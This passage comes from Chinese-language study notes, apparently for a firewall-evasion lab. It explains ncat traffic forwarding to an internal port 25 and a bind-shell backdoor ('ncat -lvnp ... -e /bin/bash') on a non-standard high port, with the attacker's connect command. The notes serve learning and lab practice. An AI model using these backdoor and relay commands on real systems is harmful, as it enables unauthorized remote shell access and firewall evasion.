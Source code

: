         - `-lvnp 443`: `FORWARDING_HOST` 监听在 TCP 443 端口。
        - `-c "ncat TARGET_SERVER 25"` 或 `--sh-exec "ncat TARGET_SERVER 25"`: 当 443 端口收到连接时，执行 `ncat TARGET_SERVER 25` 命令，即 `FORWARDING_HOST` 会连接到内部 `TARGET_SERVER` 的 25 端口，并将 443 端口的流量转发过去。
    - **效果**: 攻击者连接到 `FORWARDING_HOST:443`，流量实际被转发到 `TARGET_SERVER:25`。

##### 4.3. 使用非标准端口 (Using Non-Standard Ports)

- **原理**: 将服务（尤其是后门或 C2 通道）监听在不常用或未被严格监控的高位端口上，以期望这些端口的流量不被防火墙或管理员特别关注。
- **工具与示例 (`ncat` 后门)**:
    - **在目标机器上执行 (作为后门)**:
        
        Bash
        
        ```
        ncat -lvnp CUSTOM_PORT_NUMBER -e /bin/bash
        # 例如: ncat -lvnp 43210 -e /bin/bash
        ```
        
        - `-e /bin/bash` 或 `--exec /bin/bash`: 将 `/bin/bash` 绑定到监听端口，提供一个交互式 shell。
        - **注意**: 监听低于 1024 的端口通常需要特权用户 (root/administrator)。
    - **攻击者连接 (从 AttackBox)**:
        
        Bash
        
        ```
        ncat TARGET_MACHINE_IP CUSTOM_PORT_NUMBER
        # 例如: ncat 10.10.119.33 43210
        ```
        
    - **规避考虑**: 选择的 `CUSTOM_PORT_NUMBER` 是否会被防火墙阻止是成功的关键。